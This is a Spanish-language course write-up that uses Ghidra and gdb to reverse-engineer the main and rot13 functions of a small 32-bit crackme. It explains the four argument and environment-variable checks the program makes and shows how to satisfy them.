


- [**Ejercicio 1**](#ejercicio-1)
  - [**Pistas**](#pistas)
  - [**Tarea 1**](#tarea-1)
    - [**El documento del ejercicio**](#el-documento-del-ejercicio)
    - [**Ajuste de la sintáxis de x86: Intel o AT\&T**](#ajuste-de-la-sintáxis-de-x86-intel-o-att)
    - [**Lo que va haciendo la función main**](#lo-que-va-haciendo-la-función-main)
      - [**1. Variables:**](#1-variables)
      - [**3. Cómo accede el programa a sus datos globales**](#3-cómo-accede-el-programa-a-sus-datos-globales)
      - [**4. Primera Protección: El número de argumentos**](#4-primera-protección-el-número-de-argumentos)
      - [**5. Segunda Protección: Comprueba que el primer argumento del usuario, sea 1729**](#5-segunda-protección-comprueba-que-el-primer-argumento-del-usuario-sea-1729)
      - [**6. Tercera Protección: La variable de entorno**](#6-tercera-protección-la-variable-de-entorno)
      - [**7. Cuarta Protección: HOLAKASE**](#7-cuarta-protección-holakase)
      - [**8. Finalización del Programa**](#8-finalización-del-programa)
      - [**9. Epílogo de la función y restauración de la pila original**](#9-epílogo-de-la-función-y-restauración-de-la-pila-original)
      - [**Resumen de la función main escrita en C**](#resumen-de-la-función-main-escrita-en-c)
  - [**Cómo ejecutar el programa**](#cómo-ejecutar-el-programa)
    - [**La variable de entorno**](#la-variable-de-entorno)
    - [**Ejecución del programa con sus argumentos**](#ejecución-del-programa-con-sus-argumentos)
    - [**Ejecutando el programa con gdb**](#ejecutando-el-programa-con-gdb)
  - [**Tarea 2**](#tarea-2)
    - [**Identificar las "Funciones de Usuario"**](#identificar-las-funciones-de-usuario)
    - [**Las 2 Funciones de usuario**](#las-2-funciones-de-usuario)
      - [**1. writetofile**](#1-writetofile)
      - [**2. rot13**](#2-rot13)
        - [**Encabezado de función rot13**](#encabezado-de-función-rot13)
        - [**Prólogo de la funcion rot13**](#prólogo-de-la-funcion-rot13)
        - [**Cómo accede el programa a sus datos globales**](#cómo-accede-el-programa-a-sus-datos-globales)
        - [**Comprobación inicial y una salida temprana de la función**](#comprobación-inicial-y-una-salida-temprana-de-la-función)
        - [**Preparación de llamada a strlen e invocación para obtener la longitud del texto de entrada**](#preparación-de-llamada-a-strlen-e-invocación-para-obtener-la-longitud-del-texto-de-entrada)
        - [**Gestión de la pila tras `strlen` y luego reserva memoria dinámica con `malloc` usando esa longitud**](#gestión-de-la-pila-tras-strlen-y-luego-reserva-memoria-dinámica-con-malloc-usando-esa-longitud)
        - [**Gestión del resultado de malloc. Comprobación de errores y, si todo va bien, copia la cadena original al nuevo buffer**](#gestión-del-resultado-de-malloc-comprobación-de-errores-y-si-todo-va-bien-copia-la-cadena-original-al-nuevo-buffer)
        - [**Preparación simple de variables y salto al inicio de un bucle**](#preparación-simple-de-variables-y-salto-al-inicio-de-un-bucle)
        - [**Bucle sobre la cadena**](#bucle-sobre-la-cadena)
        - [**La lógica del Algoritmo ROT13**](#la-lógica-del-algoritmo-rot13)
        - [**Operación de la resta necesaria para el cifrado / descifrado**](#operación-de-la-resta-necesaria-para-el-cifrado--descifrado)
        - [**Ya no puedo más**](#ya-no-puedo-más)
        - [**Epílogo de la función rot13**](#epílogo-de-la-función-rot13)
  - [**Nota curiosa: Aplicamos Reglas Capa al ejercicio**](#nota-curiosa-aplicamos-reglas-capa-al-ejercicio)
- [**Ejercicio 2**](#ejercicio-2)
  - [**Tarea 1**](#tarea-1-1)
    - [¿Global o Cscope?](#global-o-cscope)
    - [**Crear una BD simbólica con Global**](#crear-una-bd-simbólica-con-global)
    - [**Mostrar un recuento de entradas en la base de datos de Global**](#mostrar-un-recuento-de-entradas-en-la-base-de-datos-de-global)
    - [**Localizar el código de la función**](#localizar-el-código-de-la-función)
    - [**Ver todas las referencias a la función \_stop\_processes()**](#ver-todas-las-referencias-a-la-función-_stop_processes)
    - [**Análisis de la función**](#análisis-de-la-función)
    - [Enumeración de los procesos que tiene en cuenta esta función para que sean detenidos](#enumeración-de-los-procesos-que-tiene-en-cuenta-esta-función-para-que-sean-detenidos)
    - [\*\*APIs de Windows que usa](#apis-de-windows-que-usa)
  - [**Tarea 2**](#tarea-2-1)


# **Ejercicio 1**

Detalles a tener en cuenta:
- que guarda las variables? en el datoa? en heap? en el stack?
- que devuelve?
- que usa
- de donde viene los parametros
- donde guarda los parametros
- las variables que usa donde las guarda? en la pila? en el heap?
- es estatic? si es estatic NO se exporta el simbolo. No se ve fuera. es como si fuera private.
- Se puede linkar los simbolos?
- Que ambito tiene?
- usa malloc? juega al despiste.
- 

## **Pistas**
- El ensamblador es x86 32 bits.
- Comenzar desensamblando el código (ajustad la sintáxis de x86 a vuestro gusto: Intel o AT&T).
- Comenzad por ‘main’, es el punto de entrada de todos los programas, es fácil localizarlo.
- ¿Qué va haciendo ‘main’? ¿Se están cumpliendo todas las condiciones que inspecciona el programa?
- Además de ‘main’ el programa contiene otra función, el resto son llamadas a funciones externas.
- Podéis usad todas las herramientas que queráis, pero de nuevo, se resuelve con un buen desensamblador y estudiando el código parte a parte. Es decir, analizando.


## **Tarea 1**
Descubrid a través de la lectura del código de la función ‘main’ desensamblada como ejecutar el programa.

Es decir, NO ES NECESARIO MANIPULAR EL PROGRAMA. Simplemente entendiendo como funciona ‘main’ es posible adivinar como evadir las protecciones y ejecutar el programa.

Se pide:
- Detallad y explicad mostrando el código ensamblador cuales son las condiciones para que el programa se ejecute.
- Demostrad (mediante capturas de pantalla) la ejecución del programa.

### **El documento del ejercicio**
[Ejercicio](ejercicio1/Ejercicio-1.zip)
- Contraseña para descomprimir: infected

### **Ajuste de la sintáxis de x86: Intel o AT&T**

Para el análisis hea utilizado Ghidra como desensamblador, con sintaxis estilo Intel. A continuación se muestran los fragmentos de código ensamblador relevantes.

### **Lo que va haciendo la función main**
[La función main](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-3-analisis-de-codigo-fuente/2-M3-Tarea2/ejercicio1/funcion-main.md)

#### **1. Variables:**
```
undefined main()
undefined         <UNASSIGNED>   <RETURN>
undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     00011304(R), 
                                                                                      000113c7(*)  
undefined         Stack[-0x14]:1 local_14                                XREF[1]:     000113c0(*)  
undefined4        Stack[-0x24]:4 local_24                                XREF[3]:     00011365(W), 
                                                                                      00011368(R), 
                                                                                      00011381(R)
```
donde:
- `main` devuelve (`return` ) un tipo `undefined`.
- Hay tres variables de interés en la pila:
  - `local_res0`:
    - Stack[0x0]:4 → está a desplazamiento `+0x0` respecto a `EBP`.
    - Tamaño: 4 bytes.
    - Sirve para guardar la dirección de retorno original / ajuste de pila.
    - Se usa en las instrucciones en `0x00011304` (lectura) y `0x000113c7` (en la salida de la función).
  - `local_14`:
    - Stack[-0x14]:1 → está a desplazamiento `-0x14` desde `EBP`, ocupa 1 byte.
    - Es una variable local “de relleno” usada en la epílogo para restaurar la pila.
    - Ghidra la llama `local_14` sólo por el offset (14).
  - `local_24`:
    - Stack[-0x24]:4 → desplazamiento `-0x24`, 4 bytes.
    - Ghidra la llama `local_24` sólo por el offset.
    - Es una variable local real: ahí se guarda el puntero devuelto por `getenv("KEY")`.

-------------------------------------------

**2. El prólogo de la función main:**  
Continuamos analizando las siguientes insctrucciones de la función main, que son el prólogo de main ➡ preparan la pila, alinean `ESP` a 16 bytes y configuran los registros de base para código posición-independiente (PIC):
```
  000112fd 8d 4c 24 04     LEA        ECX=>Stack[0x4],[ESP + 0x4]
  00011301 83 e4 f0        AND        ESP,0xfffffff0
  00011304 ff 71 fc        PUSH       dword ptr [ECX + local_res0]
  00011307 55              PUSH       EBP
  00011308 89 e5           MOV        EBP,ESP
  0001130a 56              PUSH       ESI
  0001130b 53              PUSH       EBX
  0001130c 51              PUSH       ECX
  0001130d 83 ec 1c        SUB        ESP,0x1c
```
donde:
- Al entrar en la función, la pila está así:
  - `[ESP + 0]` ➡ dirección de retorno `a _start`.
  - `[ESP + 4]` ➡ `argc`.
  - `[ESP + 8]` ➡ `argv`.
  - `[ESP + 12]` ➡ `envp`.
- Guarda un puntero a los argumentos originales ➡ `LEA ECX,[ESP + 0x4]` ➡ `ECX = ESP + 4` ➡ `ECX` pasa a apuntar a `argc`.
  - `[ECX + 0]` ➡ `argc`.
  - `[ECX + 4]` ➡ `argv`.
  - `[ECX + 8]` ➡ `envp`.
  - `[ECX - 4]` ➡ antigua dirección de retorno.
- `AND ESP,0xfffffff0` ➡ Se alinea la pila a 16 bytes.
- `PUSH dword ptr [ECX - 0x4]` ➡ Se restaura la dirección de retorno sobre la pila alineada.
  - `[ECX - 4]` es lo que estaba en `[ESP_original + 0]`, es decir, la dirección de retorno original.
  - Se hace `PUSH` de ese valor.
- Se crea el marco de pila clásico de una función: Desde la instrucción con offset `00011307` al `001130d`.
  - `PUSH EBP / MOV EBP,ESP`.
  - Se crea el marco estándar de función:
    - Se guarda el antiguo `EBP`.
    - `EBP` pasa a apuntar al “nuevo” frame.
  - `PUSH ESI` y `PUSH EBX` ➡ Se guardan registros callee-saved que la función debe restaurar antes de salir.
  - `PUSH ECX` ➡ Se guarda en la pila el puntero a los argumentos originales (`argc` / `argv` / `envp`).
  - `SUB ESP,0x1c` ➡ Se reserva `0x1c` bytes en la pila para variables locales (`local_14`, `local_24`, ...)
  - `SUB ESP,0x1c` ➡ Se reserva 0x1c bytes en la pila para variables locales (`local_14`, `local_24`, ...)


-------------------------------------------

#### **3. Cómo accede el programa a sus datos globales**
```
  00011310 e8 fb fd    CALL       __x86.get_pc_thunk.bx             undefined __x86.get_pc_thunk.bx()
  00011315 81 c3 eb    ADD        EBX,0x2ceb
```
donde
- `CALL __x86.get_pc_thunk.bx` ➡  Se inicializa EBX para código posición-independiente (PIC). Lo que hace es copiar la dirección de retorno en EBX. Es decir: al volver de la llamada, EBX contiene la dirección de la siguiente instrucción.
- `ADD EBX,0x2CEB` ➡ Suma un desplazamiento constante a ese valor:
  - EBX = (dirección actual de código) + 0x2CEB

Esto lo hace porque el ejecutable está compilado como código posición-independiente (PIC). Estas `__x86.get_pc_thunk.*` son funciones helper que GCC sólo genera cuando compila en modo `-fPIC/-fPIE` (código posición-independiente) en x86 de 32 bits. Estas funciones lo que hacen es:
- Leer la dirección de retorno desde la pila.
- Copiarla a un registro (EBX, EDX, EAX, según la variante).
- Volver.

Como el ejecutable está compilado como código posición-independiente (PIC), significa que:
- No puede usar direcciones absolutas “hardcodeadas” a datos globales.
- En su lugar, obtiene la dirección actual de código (con `get_pc_thunk`) y le suma un offset fijo para llegar a la base de su tabla de datos.
- A partir de ahí, accede a cadenas y variables globales como `DAT_0001202b ("KEY")` o `envkey ("HOLAKASE")` usando desplazamientos respecto a `EBX`.

-------------------------------------------

#### **4. Primera Protección: El número de argumentos**  
Recordamos que anteriormente:
- `[ECX + 0]` ➡ `argc`.
- `[ECX + 4]` ➡ `argv`.
- `[ECX + 8]` ➡ `envp`.

```
0001131b 89 ce           MOV   ESI,ECX            ; ESI = puntero a argc/argv
0001131d 83 3e 03        CMP   dword ptr [ESI],0x3
00011320 74 0a           JZ    LAB_0001132c       ; si argc == 3 -> OK
00011322 83 ec 0c        SUB   ESP,0xc
00011325 6a ff           PUSH  -0x1
00011327 e8 54 fd ff ff  CALL  exit               ; si no, exit(-1)
```
donde:
- `MOV   ESI,ECX` ➡ Lo que se hace es: `ESI = &argc`. Es decir, se guarda ese puntero en ECX para no perder acceso a `argc` / `argv` / `envp`.
- A partir de este momento:
  - `[ESI]` = `argc`.
  - `[ESI + 4]` = `argv`.
  - `[ESI + 8]` = `envp`.
- `CMP dword ptr [ESI],0x3` ➡ Compara el valor de `argc` con `3`.
  - Si `[ESI] ==3` ➡ El resultado de la resta es 0, entonces `ZF = 1`.
- `JZ LAB_0001132c` ➡
  - Si `ZF = 1` → Salta a `LAB_0001132c`.
  - Si `ZF = 0` → No salta y sigue con la siguiente instrucción.
- Si no salta, continúa con el ejecución para preparar la llamada a `exit`:
  - `SUB   ESP,0xc` ➡ Reserva 12 bytes en la pila. Esto lo hace para mantener la alineación de 16 bytes antes de llamar a una función.
  - `PUSH -0x1` ➡ Empuja el valor -1 en la pila.
  - `CALL exit` ➡ Termina el proceso inmediatamente con código de salida 255, porque -1 como unsigned char es 255.
  - No vuelve a main. Aquí se corta todo el flujo.


**<mark>Es decir, para para superar la primera protección del programa, tenemos que pasar 3 argumentos: `argv[0]`, `argv[1]` y `argv[2])`.</mark>**

Más adelante sabremos que estos argumentos deben ser:
- `argv[0]` ➡ Nombre del programa que lo añade el sistema.
- `argv[1]` ➡ Argumento numérico, que más adelante se comprobará que sea `1729` → `(atoi(argv[1]) == 1729)`.
- `argv[2]` ➡ Cadena de texto a la que se aplicará la función `rot13`.

-------------------------------------------

#### **5. Segunda Protección: Comprueba que el primer argumento del usuario, sea 1729**
Recordamos que:
- `[ESI]` = `argc`.
- `[ESI + 4]` = `argv`.
- `[ESI + 8]` = `envp`.

```
0001132c 8b 46 04        MOV  EAX,dword ptr [ESI + 4]  ; EAX = *(ESI+4) = argv
0001132f 83 c0 04        ADD  EAX,0x4                  ; EAX = &argv[1]
00011332 8b 00           MOV  EAX,dword ptr [EAX]      ; EAX = argv[1]
00011334 83 ec 0c        SUB  ESP,0xc
00011337 50              PUSH EAX                      ; push argv[1]
00011338 e8 73 fd ff ff  CALL atoi                     ; atoi(argv[1])
0001133d 83 c4 10        ADD  ESP,0x10
00011340 ba c1 06 00 00  MOV  EDX,0x6c1                ; 0x6c1 = 1729
00011345 39 d0           CMP  EAX,EDX                  ; atoi(argv[1]) ?= 1729
00011347 74 0a           JZ   LAB_00011353             ; si es igual -> OK
00011349 83 ec 0c        SUB  ESP,0xc
0001134c 6a ff           PUSH -0x1
0001134e e8 2d fd ff ff  CALL exit                     ; si no, exit(-1)
```
donde:
- `MOV EAX, [ESI + 4]` ➡ Carga en el registro `EAX` el valor de `argv`, es decir, un `char **`.
- `ADD EAX, 0x4` ➡
  - Suma 4 bytes a ese puntero: como cada entrada de `argv` es un puntero de 4 bytes, esto equivale a ir de `&argv[0]` a `&argv[1]`.
  - Ahora `EAX` apunta a `argv[1]`, a la posición donde está guardado el puntero.
- `MOV EAX, [EAX]` ➡ Desreferencia: ahora EAX contiene directamente `argv[1]`, es decir, la cadena que se ha pasado como primer argumento de usuario, como por ejemplo `1729`.
- Llamada a `atoi(argv[1])`:
  - `SUB ESP, 0xC` ➡ Reserva 12 bytes en la pila para mantener la alineación.
  - `PUSH EAX` ➡ Empuja `argv[1]` como argumento de `atoi`.
  - `CALL atoi` ➡ Llama a la función estándar atoi.
    - El valor devuelto que es el entero convertido, queda en `EAX`.
- Limpia la pila: `ADD ESP, 0x10` ➡
  - 4 bytes del argumento: `PUSH EAX`.
  - 12 bytes del `SUB ESP, 0xC` previo.
  - Total: 16 bytes.
- Comparación con 1729 ➡
  - `MOV EDX, 0x6c1` ➡ Carga en el registro `EDX` el valor `0x6C1`, que en decimal es `1729`.
  - `CMP EAX, EDX` ➡ Compara el resultado de `atoi(argv[1])` que está en `EAX` con `EDX` que contiene `1729`.
  - `JZ LAB_00011353`  ➡ Jump if Zero: salta solo si `EAX == EDX`, es decir, si == 1729.
    - Si `ZF = 1` → Salta a `LAB_00011353`.
    - Si `ZF = 0` → No salta y sigue con la siguiente instrucción.
- Si no salta, continúa con el ejecución para preparar la llamada a `exit`:
  - `SUB   ESP,0xc` ➡ Reserva 12 bytes en la pila. Esto lo hace para mantener la alineación de 16 bytes antes de llamar a una función.
  - `PUSH -0x1` ➡ Empuja el valor -1 en la pila.
  - `CALL exit` ➡ Termina el proceso inmediatamente con código de salida 255, porque -1 como unsigned char es 255.
  - No vuelve a main. Aquí se corta todo el flujo.


**<mark>Es decir, para para superar la segunda protección del programa, el primer argumento de usuario (después del nombre del programa) debe ser una cadena que, al convertirla con atoi a un número entero, sea exactamente 1729.</mark>**


-------------------------------------------

#### **6. Tercera Protección: La variable de entorno**  
```
LAB_00011353:
00011353 83 ec 0c        SUB  ESP,0xc
00011356 8d 83 2b e0 ff ff  LEA EAX,[EBX + 0xffffe02b] ; EAX = &DAT_0001202b
                                                       ; (nombre de la variable de entorno, empieza por 'K')
0001135c 50              PUSH EAX                      ; push nombre
0001135d e8 ee fc ff ff  CALL getenv                  ; getenv(nombre)
00011362 83 c4 10        ADD  ESP,0x10
00011365 89 45 e4        MOV  [EBP + local_24],EAX    ; guardar retorno de getenv
00011368 83 7d e4 00     CMP  dword ptr [EBP + local_24],0x0
0001136c 75 0a           JNZ  LAB_00011378            ; si != NULL -> OK
0001136e 83 ec 0c        SUB  ESP,0xc
00011371 6a ff           PUSH -0x1
00011373 e8 08 fd ff ff  CALL exit                    ; si NULL, exit(-1)
```
donde:
- `SUB  ESP,0xc` ➡ Reserva 12 bytes en la pila para mantener la alineación.
- `LEA  EAX,[EBX + 0xffffe02b]` ➡ Calcula en EAX la dirección de la cadena en memoria en DAT_0001202b.
  - En esa dirección está la cadena: `0001202b  "KEY"`.
  - Por lo tanto: `EAX = "KEY"`.
- `PUSH EAX` ➡ Se empuja el puntero a la cadena "KEY" en la pila.
- `CALL getenv` ➡ Se llama a la función estándar `getenv`. La función `getenv("KEY")` devuelve:
  - Un puntero al valor de la variable de entorno "KEY", si existe.
  - NULL si la variable no está definida.
- Limpia la pila: `ADD ESP, 0x10` ➡
  - 4 bytes del argumento: `PUSH EAX`.
  - 12 bytes del `SUB ESP, 0xC` previo.
  - Total: 16 bytes.
- Comprueba si es NULL:
  - `MOV [EBP + local_24],EAX` ➡ Guarda en la variable `local_24` el puntero devuelto por `getenv("KEY")`.
  - `CMP  dword ptr [EBP + local_24],0x0` ➡ Compara `local_24` con `0`.
  - `JNZ LAB_00011378` ➡ Jump if Zero: 
    - Si `ZF = 1` → `getenv("KEY")` no es NULL → la variable existe → Salta a `LAB_00011378`.
    - Si `ZF = 0` → `getenv("KEY")` ha devuelto NULL → la variable no está definida → No salta y sigue con la siguiente instrucción.
- Si no salta, continúa con el ejecución para preparar la llamada a `exit`:
  - `SUB   ESP,0xc` ➡ Reserva 12 bytes en la pila. Esto lo hace para mantener la alineación de 16 bytes antes de llamar a una función.
  - `PUSH -0x1` ➡ Empuja el valor -1 en la pila.
  - `CALL exit` ➡ Termina el proceso inmediatamente con código de salida 255, porque -1 como unsigned char es 255.
  - No vuelve a main. Aquí se corta todo el flujo.

  
**Nota: La cadena en DAT_0001202b:**
```
DAT_0001202b
0001202b 4b  K
0001202c 45  E
0001202d 59  Y
0001202e 00  \0
```
La cadena en DAT_0001202b es: "KEY".


**Resumiendo, la llamada de main:**
```
00011356 8d 83 2b e0 ff ff  LEA EAX,[EBX + 0xffffe02b] ; → "KEY"
0001135c 50                 PUSH EAX
0001135d e8 ee fc ff ff     CALL getenv                 ; getenv("KEY")
```
Lo que hace exactamente es: `char *env = getenv("KEY");`. Debe existir una variable de entorno KEY definida y correcta. Con un valor determinado que se explica justo en el siguiente punto.

**<mark>Es decir, para para superar la tercera protección del programa, debe existir una variable de entorno llamada "KEY". Si KEY no está definida en el entorno, el programa termina inmediatamente con exit(-1).</mark>**

-------------------------------------------

#### **7. Cuarta Protección: HOLAKASE**  
```
00011378 8b 83 38 00 00 00  MOV EAX,dword ptr [EBX + 0x38] ; EAX = envkey = 0x12008
                              ; en 0x12008 está la cadena "HOLAKASE"
0001137e 83 ec 08           SUB ESP,0x8
00011381 ff 75 e4           PUSH dword ptr [EBP + local_24] ; push env
00011384 50                 PUSH EAX                        ; push "HOLAKASE"
00011385 e8 a6 fc ff ff     CALL strcmp                     ; strcmp("HOLAKASE", env)
0001138a 83 c4 10           ADD  ESP,0x10
0001138d 85 c0              TEST EAX,EAX
0001138f 74 0a              JZ   LAB_0001139b               ; si devuelve 0 -> OK
00011391 83 ec 0c           SUB  ESP,0xc
00011394 6a ff              PUSH -0x1
00011396 e8 e5 fc ff ff     CALL exit                       ; si != 0, exit(-1)
```
donde:
- `MOV EAX,dword ptr [EBX + 0x38]` ➡
  - `EBX` apunta a la zona de datos/GOT, la base de datos del binario.
  - `[EBX + 0x38]` contiene un puntero a la cadena "HOLAKASE".
  - Luego `EAX` = dirección de la cadena "HOLAKASE".
- `SUB ESP,0x8` ➡ Ajusta la pila.
- `PUSH dword ptr [EBP + local_24]` ➡ Empuja como segundo argumento el puntero `env`, que viene de `getenv("KEY")`.
- `PUSH EAX` ➡ Empuja como primer argumento el puntero a "HOLAKASE".
- `CALL strcmp` ➡ Llama a la función `strcmp` que compara cadenas y devuelve:
  - 0 si las cadenas son exactamente iguales.
  - <0 o >0 si son distintas.
- Evalua el resultado de `strcmp` ➡
  - `ADD  ESP,0x10` ➡ Limpia la pila, 8 bytes de los dos PUSH + 8 de la reserva previa.
  - `TEST EAX,EAX` ➡ Hace un `AND` entre `EAX` y `EAX`:
    - Si EAX == 0 ➡ Zero Flag (ZF) = 1.
    - Si EAX != 0 ➡ ZF = 0.
  - `JZ LAB_0001139b` ➡ Jump if Zero:
    - Si `ZF = 1` ➡ strcmp("HOLAKASE", env) == 0 → env ES exactamente "HOLAKASE" → Salta a `LAB_0001139b`.
    - Si `ZF = 0` ➡ Si env NO es exactamente "HOLAKASE" → No salta y sigue con la siguiente instrucción.
- Si no salta, continúa con el ejecución para preparar la llamada a `exit`:
  - `SUB   ESP,0xc` ➡ Reserva 12 bytes en la pila. Esto lo hace para mantener la alineación de 16 bytes antes de llamar a una función.
  - `PUSH -0x1` ➡ Empuja el valor -1 en la pila.
  - `CALL exit` ➡ Termina el proceso inmediatamente con código de salida 255, porque -1 como unsigned char es 255.
  - No vuelve a main. Aquí se corta todo el flujo.


**<mark>Es decir, para para superar la cuarta protección del programa, NO basta con que la variable de entorno KEY exista, su valor debe ser exactamente la cadena: "HOLAKASE".</mark>** Sin espacios, sin minúsculas, sin caracteres extra. Es case-sensitive.


-------------------------------------------

#### **8. Finalización del Programa**  
Recordamos que:
- `[ESI]` = `argc`.
- `[ESI + 4]` = `argv`.
- `[ESI + 8]` = `envp`.

```
    -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
                             LAB_0001139b               XREF[1]:     0001138f(j)  
0001139b 8b 46 04        MOV        EAX,dword ptr [ESI + Stack[0x8]]
0001139e 83 c0 08        ADD        EAX,0x8
000113a1 8b 00           MOV        EAX,dword ptr [EAX]
000113a3 83 ec 0c        SUB        ESP,0xc
000113a6 50              PUSH       EAX
000113a7 e8 61 fe        CALL       rot13                undefined rot13()
         ff ff
000113ac 83 c4 10        ADD        ESP,0x10
000113af 83 ec 0c        SUB        ESP,0xc
000113b2 50              PUSH       EAX
000113b3 e8 b8 fc        CALL       <EXTERNAL>::puts     int puts(char * __s)
         ff ff
000113b8 83 c4 10        ADD        ESP,0x10
000113bb b8 00 00        MOV        EAX,0x0
         00 00
```
donde:
- Recupera `argv[2]` que es el texto va a transformar:
  - `MOV  EAX,dword ptr [ESI + Stack[0x8]]` ➡ 
    - Ghidra aquí lo anota como Stack[0x8], pero funcionalmente es lo mismo que `[ESI + 4]`: está cogiendo `argv`.
    - Entonces `EAX = argv`.
  - `ADD EAX, 0x8`:
    - Cada entrada de `argv` es un puntero de 4 bytes.
    - `argv + 2 * 4` = `&argv[2]`.
    - Ahora `EAX` apunta a `argv[2]`.
  - `MOV EAX, [EAX]` ➡ 
    - Desreferencia ese puntero: `EAX = argv[2]`.
    - Es decir, EAX contiene la dirección de la cadena de texto que el usuario pasó como tercer argumento, el segundo argumento que escribe el usuario.
- Llama a `rot13(argv[2])` ➡ 
  - `SUB ESP, 0xC` ➡ Reserva 12 bytes para mantener alineación de la pila antes de la llamada.
  - `PUSH EAX` ➡ Empuja como argumento el puntero `argv[2]`.
  - `CALL rot13` ➡ Llama a la función `rot13(char *)` ➡ Esta función:
    - Reserva memoria.
    - Copia la cadena.
    - Aplica `ROT13` sobre esa copia.
    - Devuelve en `EAX` un puntero a la nueva cadena transformada.
- Limpia la pila: `ADD ESP, 0x10` ➡ 
  - 4 bytes del `PUSH EAX`.
  - 12 bytes del `SUB ESP,0xC`.
  - Total 16 bytes ➡  `ESP` vuelve a su valor original antes de esta secuencia.
- Imprimir el resultado: `CALL puts` ➡ Imprime la cadena seguida de un salto de línea.
- Limpia de nuevo: `ADD ESP,0x10` ➡
  - 4 bytes del argumento.
  - 12 de la reserva previa.
- Prepara el valor de retorno de `main`: `MOV EAX,0x0` ➡ Carga `0` en `EAX`, que es el valor de retorno de `main`.


**<mark>En este main vemos que hay 4 condiciones importantes y si alguna falla se hace exit(-1) inmediatamente. Así que si llegamos a ejecutar la instrucción `puts(rot13(argv2]))`, es que todas esas condiciones se han cumplido. El segundo argumento `(argv[2])` se pasa a la función `rot13`, y el resultado de aplicar esta función, se imprime con `puts`. La función `rot13` es el clásico cifrado de sustitución que desplaza letras 13 posiciones en el alfabeto, tanto para codificar como para decodificar.</mark>**

------------------------------------------------

#### **9. Epílogo de la función y restauración de la pila original**
```
000113c0 8d 65 f4        LEA        ESP=>local_14,[EBP + -0xc]
000113c3 59              POP        ECX
000113c4 5b              POP        EBX
000113c5 5e              POP        ESI
000113c6 5d              POP        EBP
000113c7 8d 61 fc        LEA        ESP=>local_res0,[ECX + -0x4]
000113ca c3              RET
```
donde:
- `LEA ESP, [EBP - 0xC]` ➡ Mueve `ESP` a la zona donde estaban las variables locales. Es parte del desmontaje del frame (EBP-centrado).
- `POP ECX` ➡ Recupera el valor de `ECX` que se salvó al principio de main.
- `POP EBX`, `POP ESI`, `POP EBP` ➡ Restaura los registros callee-saved (`EBX`, `ESI`) y el `viejo EBP`, deshaciendo el prólogo clásico de función.
- `LEA ESP,[ECX - 0x4]` ➡ 
  - `ECX` se usó para guardar el valor de la pila antes de la alineación (al principio de main).
  - Ahora se recalcula `ESP` en función de ese valor para dejar la pila exactamente como la esperaba el llamador, antes de entrar en `main`.
  - El `-0x4` tiene que ver con cómo se guardó la dirección de retorno al principio, el `local_res0`.
- `RET` ➡ Devuelve al runtime (`_start` / `libc_start_main`), con:
  - `EAX = 0` que es el valor de retorno de main.
  - `ESP` restaurado coherentemente.
  - Registros callee-saved restaurados.


-------------------------------------------

#### **Resumen de la función main escrita en C**  
```c
int main(int argc, char **argv) {
    if (argc != 3)
        exit(-1);

    if (atoi(argv[1]) != 1729)
        exit(-1);

    char *env = getenv(NOMBRE_ENV);   // NOMBRE_ENV = cadena en DAT_0001202b = KEY
    if (env == NULL)
        exit(-1);

    if (strcmp("HOLAKASE", env) != 0)
        exit(-1);

    char *out = rot13(argv[2]);
    puts(out);

    return 0;
}
```

----------------------------------------

## **Cómo ejecutar el programa**
Para que el programa se ejecute, es decir, llegar a `rot13 + puts` se necesitan evadir "las protecciones" que hemos estudiado en el punto anterior.

### **La variable de entorno**
Creamos una variable de entorno llamada Key y su valor = HOLAKASE:
```
$ export KEY=HOLAKASE
```
donde:
- KEY es la variable de entorno que exige el programa.

### **Ejecución del programa con sus argumentos**
```
$ ./programa 1729 HOLA
UBYN
```
donde:
- 1729 cumple la comparación con 0x6c1.
- HOLA es argv[2], al que se aplica ROT13 →
- UBYN, que es lo que se imprime.




### **Ejecutando el programa con gdb**
Ejecutamos gdb:
```
gdb ./ejercicio6
```

Dentro de gdb:
```
set disassembly-flavor intel

# Definimo la variable de entorno que necesitamos
set env KEY HOLAKASE

# Argumentos del programa
set args 1729 HOLA

# breakpoint en el inicio de main para que gdb calcule la dirección real y se pare en este breakpoint
break main

run
```

Cuando se pare en main, entonces añadimos unos breakpoints interesantes relativos al breakpoint anterior:
```
# 1ª protección: argc == 3      (0x112fd -> 0x1131d = +0x20)
break *main+0x20

# 2ª protección: atoi(argv[1]) == 1729   (0x48)
break *main+0x48

# 3ª protección: getenv("KEY") != NULL   (0x6b)
break *main+0x6b

# 4ª protección: strcmp("HOLAKASE", env) == 0   (0x90)
break *main+0x90

